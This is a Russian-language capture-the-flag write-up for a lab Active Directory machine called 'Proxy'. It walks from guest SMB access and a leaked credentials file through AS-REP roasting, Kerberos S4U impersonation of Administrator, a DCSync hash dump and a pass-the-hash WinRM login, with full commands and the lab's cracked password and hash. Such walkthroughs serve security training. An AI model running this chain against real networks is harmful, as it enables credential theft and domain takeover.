









# Write-up: Proxy


## Recon

Запускаем nmap:

```bash
sudo nmap -sC -sV -O 10.144.136.74
```



Порты `88` (Kerberos), `135` (MSRPC), `139`/`445` (SMB) сразу говорят, что перед нами Active Directory. Домен — `ctf.local`.

## Enum4linux и SMB

Запускаем перечисление с гостевыми кредами:

```bash
enum4linux -u ctf.local\\guest -a 10.144.136.74
```





Подключаемся к шаре `IT-Shared` от гостя:

```bash
smbclient \\\\10.144.136.74\\IT-Shared -U ctf.local\\guest
```



В шаре лежат файлы. Первый — `IT-Credentials-Backup.txt`:



```text
IT Department - Credentials Backup
===================================
Generated: 2019-08-14
Status: ARCHIVED (accounts disabled pending security review)

 helpdesk.bob  :  Welcome123!    [DISABLED - left company 2021]
 it.admin      :  ITAdmin2019!   [DISABLED - role change 2022]

NOTE: These accounts have been disabled. Active service accounts
     are managed separately by the sysadmin team.
```

Второй — `IT-Onboarding-Checklist.txt`:

```text
IT Department Onboarding Checklist
====================================
Welcome to the team!

1. Get VPN access from sysadmin
2. Request AD account
3. Install tools (see software list on intranet)
4. Review security policies

Automated Services
------------------
 File Scanner (svc.scanner)
   Runs every 2 minutes. Enumerates IT-Shared for new files to process.
   Uses Shell enumeration to inspect file metadata and icons.
   Contact sysadmin if files are not being processed.

 Database Backup (svc.mssql)
   Handles nightly MSSQL backups. Member of Backup Operators.
   Password rotated quarterly -- do not store locally.

Questions? Email helpdesk@ctf.local
```

Третий — `IT-PORTAL.html`:


Полезные зацепки:

- учётки `helpdesk.bob` и `it.admin` **отключены** — не тратим на них время;
- есть сервисная учётка **`svc.scanner`**;
- шаблон `svc.*` — можно перебирать.

## Сбор пользователей

Собираем всех пользователей домена через `lookupsid.py`:

```bash
lookupsid.py ' ':''@10.144.136.74 | awk '{print $2}' | cut -d '\' -f2 > users.txt
```



Получаем список пользователей, среди которых есть `svc.scanner`.

## AS-REP Roasting / брутфорс хэша

Получаем хэш для `svc.scanner` и брутим его через `john`:



```text
1summerlove!     (svc.scanner)
```

## BloodHound

Запускаем сбор данных:

```bash
sudo bloodhound-python -d ctf.local -u svc.scanner -p '1summerlove!' -ns 10.146.166.102 -c all
```



## S4U2Self + S4U2Proxy (Unconstrained Delegation / RBCD)

Запрашиваем билет от имени `Administrator` через `getST.py`:

```bash
/usr/share/doc/python3-impacket/examples/getST.py \
  ctf.local/svc.scanner:'1summerlove!' \
  -spn cifs/DC01.ctf.local \
  -impersonate Administrator \
  -dc-ip 10.145.133.119
```

```text
[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*] Requesting S4U2self
[*] Requesting S4U2Proxy
[*] Saving ticket in Administrator@cifs_DC01.ctf.local@CTF.LOCAL.ccache
```

Получили ccache для `Administrator`.

> В логе был повторный запуск с опечаткой в пути (`svc/scanner`). Рабочий вариант — тот, что выше.

## DCSync

Дамп хэшей через `secretsdump.py` (с использованием ccache):

```bash
/usr/share/doc/python3-impacket/examples/secretsdump.py \
  -k -no-pass ctf.local/Administrator@DC01.ctf.local
```

Получаем NTLM-хэш `Administrator` (в прохождении: `dd4592176bb3f58eea4e87a8f0eaf270`).

## Root

Подключаемся по WinRM с хэшем:

```bash
evil-winrm -i 10.145.133.119 -u Administrator -H dd4592176bb3f58eea4e87a8f0eaf270
```

Забираем флаг:



## Итоговая схема (Kill Chain)

`SMB guest (IT-Shared)` → `инфо о svc.scanner` → `lookupsid.py` → `AS-REP roast + john → svc.scanner:1summerlove!` → `getST.py (S4U2self/S4U2Proxy)` → `Administrator ccache` → `secretsdump → NTLM` → `evil-winrm → root`